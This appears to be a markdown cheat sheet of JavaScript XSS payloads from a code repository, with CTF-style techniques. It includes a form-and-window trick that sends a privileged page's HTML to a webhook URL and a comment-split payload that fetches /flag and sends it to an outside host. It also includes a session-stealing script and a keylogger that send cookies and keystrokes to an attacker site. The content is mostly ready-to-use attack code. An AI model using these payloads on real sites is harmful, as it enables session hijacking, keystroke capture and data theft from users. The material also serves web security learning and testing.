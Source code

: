 # JavaScript based Payloads

## Basic test payloads

```html
<img src=x onerror=alert(document.domain)>

<script>document.write(123)</script>

```

## Interesting Techniques 


### Technique 1 
>#### Fetch-free technique to obtain a privileged page's content


```html 
<form method="post" id="theForm" action="/flag" target='hacker'>
    <!-- Form body here -->
</form>
<script> 
    let w = window.open('','hacker'); 	
    // w can be accessed as long as same-origin policy is satisfied
    
    document.getElementById('theForm').submit();
    
    setTimeout(()=>{
        document.location= `https://webhook.site/645c63<something>5-a172-a9014e389741?c=${w.document.body.innerHTML}`
    },500);

</script>

```

### Technique 2 
>#### Using quotes and comments to swallow existing content and to achieve XSS


```js
// Server-side code for a To-Do list creation feature with limitations on both individual line size and the entire list size 

const parsed = list
    .trim()
    .split("\n")
    .map((x) => x.trim());
if (parsed.length > 20) {
    res.status(400).send("list must have at most 20 items");
    return;
}
if (parsed.some((x) => x.length > 12)) {
    res.status(400).send("list items must not exceed 12 characters");
    return;
}

// The created list can be accessed as a checkbox list in a HTML file 

```

```html
<!-- Original Payload -->

 <img src=''onerror='fetch("/flag").then(r=> r.text() ).then( t=> window.open("http:"+"//hack"+".site"+"/"+t))'>

 <!-- Modified Payload to satisfy the length requirements -->

<img src='
'onerror='/*
*/fetch("/*
*//flag")./*
*/then(r=>/*
*/r.text()/*
*/).then(/*
*/t=>/*
*/window/*
*/.open(/*
*/"http:"+/* 
*/"//hack"/*
*/+".site/*
*/"+"/"/*
*/+t))'>

<!-- The ' (quote) after the src attritube and the ' before onerror would engulf the in between junk html as an img src and would throw an error.-->

<!-- Anything within the quotes of onerror attritube would be considered as js code. So to omit the junk html associated with each line in the list, comments (/**/) are used. -->

```


## Common XSS Payloads

```html
<!-- Session Stealing -->

<script>fetch('https[:]//hacker.website/steal?cookie=' + btoa(document.cookie));</script> 

<!-- Key Logger -->

<script>document.onkeypress = function(e) { fetch('https[:]//hacker.website/log?key=' + btoa(e.key) );}</script>
```

